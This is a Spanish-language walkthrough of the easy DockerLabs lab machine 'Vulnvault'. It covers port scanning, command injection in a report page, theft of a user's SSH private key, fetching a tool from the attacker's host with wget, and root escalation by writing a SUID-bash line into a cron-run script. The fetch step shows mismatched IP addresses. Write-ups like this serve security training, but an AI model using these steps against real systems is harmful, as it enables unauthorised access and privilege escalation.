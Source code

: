 # 💻 Maquina vulnvault

![](https://darkened-raisin-b9c.notion.site/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F89ee8e04-ef1a-4e1f-bd35-dd38f517fa16%2Fc4957249-01b5-4771-b9fd-39af9f612f5f%2Fimage.png?table=block\&id=1045f89f-9238-8098-b0d9-fcf67ccf3aba\&spaceId=89ee8e04-ef1a-4e1f-bd35-dd38f517fa16\&width=2000\&userId=\&cache=v2)

* **Nombre de la Máquina:** Vulnvault
* **Sistema Operativo:** Linux
* **Dificultad:** Fácil
* **Plataforma:** [DockerLabs](https://dockerlabs.es/)
* **Dirección IP:** 172.17.0.2

### Escaneo de puertos <a href="#heading-escaneo-de-puertos" id="heading-escaneo-de-puertos"></a>

Empezamos escaneando los puertos disponibles en la maquina:

```shell
sudo nmap -sS -p- --open -T5 -n -Pn -v 172.17.0.2 -oG allports
```

Obtenemos los siguientes puertos abiertos :

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 14:43 -05
Initiating ARP Ping Scan at 14:43
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 14:43, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:43
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 14:43, 0.52s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

En el resultado que nos arroja vemos que tenemos los puertos 22,80 por lo tanto realizamos un análisis mas detallado para ver que servicios están corriendo por estos:

```sh
> nmap -sCV -p22,80 172.17.0.2 -oG Puertos
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 14:47 -05
Nmap scan report for vulnvault.dl (172.17.0.2)
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Generador de Reportes - Centro de Operaciones
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.15 seconds
```

Ingresamos ala pagina web que tenemos corriendo por el puerto 80 para ver que tenemos:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727725843588/a83fab31-5f1f-4a4c-a45d-2b9b124b7a2d.png?auto=compress,format\&format=webp)

En la pagina vemos un enlace donde podemos subir archivos, aproveche para ejecutar una reverse Shell para saber si era posible un tipo de conexión pero no fue así.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727725974505/e4cd8ebb-0b19-4e24-976a-ca66d52b3bed.png?auto=compress,format\&format=webp)

Después de inspeccionar el código de fuente de la pagina revise la primer pagina “Generar Reportes” para ver si lograba alguna respuesta, ya que en la pantalla me imprimía cierta información.

### Intrusión <a href="#heading-intrusion" id="heading-intrusion"></a>

Nos dimos de cuenta que nos corre comandos anteponiendo ;

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726532948/cd3e2a8d-fd03-467f-986d-4e934c545ee6.png?auto=compress,format\&format=webp)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726511534/134f957f-cd97-43ad-bc34-091490dfd31d.png?auto=compress,format\&format=webp)

Por lo tanto procedo a leer el archivo `/etc/passwd` para ver que usuarios encontramos.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726709728/478cad3e-d49d-4396-a0f8-e5e43e9bd841.png?auto=compress,format\&format=webp)

Encontramos una usuaria `samara`, trate por medio de Hydra lograr descifrar alguna contraseña pero no fue posible, por eso intente buscar la cave privada del ssh del usuario samara, y efectivamente la encontramos..

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726878350/408f3d88-239a-4ff5-9e34-55e73cd70ef5.png?auto=compress,format\&format=webp)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727726907483/25693de4-a16b-41bc-9ca2-c4798b9b9877.png?auto=compress,format\&format=webp)

Procedemos a copiarla y crear un archivo en nuestro directorio para asi darle permisos y poder loguearnos por ssh

```
nano id_rsa
chmod 600 id_rsa
ssh samara@172.17.0.2 -i id_rsa
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727727121235/33a5bbf0-615d-4d1c-9247-f2b56a3da2cb.png?auto=compress,format\&format=webp)

### Escalada de Privilegios <a href="#heading-escalada-de-privilegios" id="heading-escalada-de-privilegios"></a>

Empezamos por revisar los archivos del escritorio pero no hay nada relevante.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727727536190/a8dc7d7a-3c71-4324-a79c-d637615c277d.png?auto=compress,format\&format=webp)

Vamos a continuar revisando como escalar privilegios:

* Permisos SUID
* Privilegios Sudoers
* Tareas Cron

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727727789720/dadb41aa-2cde-4b03-93fa-877cc8a96896.png?auto=compress,format\&format=webp)

Al ver que no hay nada relevante procedo a descargar pspy64 y transferirlo la maquina con esto ver que podemos encontrar.

Desde mi maquina.

```shell-session
> python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

Maquina Victima, una vez recibimos el script le damos privilegios y ejecutamos.

```shell
wget http://194.168.145.145:443/pspy64
--2024-09-30 22:29:31--  http://192.168.153.145:443/pspy64
Connecting to 192.168.153.145:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64        100%   2.96M  17.4MB/s    in 0.2s     

2024-09-30 22:29:31 (17.4 MB/s) - ‘pspy64’ saved [3104768/3104768]

chmod 600 pspy64
./pspy64
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727728528391/69087613-ae3d-43ff-ac2d-4cf0eab94fe9.png?auto=compress,format\&format=webp)

Encontramos que se esta ejecutando constantemente el archivo `/usr/local/bin/echo.sh.`

Ingresamos al directorio y vemos que tiene permisos de escritura por lo que lo editamos para poder escalar privilegios

```sh
nano /usr/local/bin/echo.sh
#!/bin/bash
chmod u+s /usr/bin/bash
```

Una vez modificamos y guardamos ejecutamos el comando `bash -p` obtendremos una bash privilegiada con permisos root.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1727728859372/0539b8cf-d840-4275-a9eb-d8fc03c450c2.png?auto=compress,format\&format=webp)

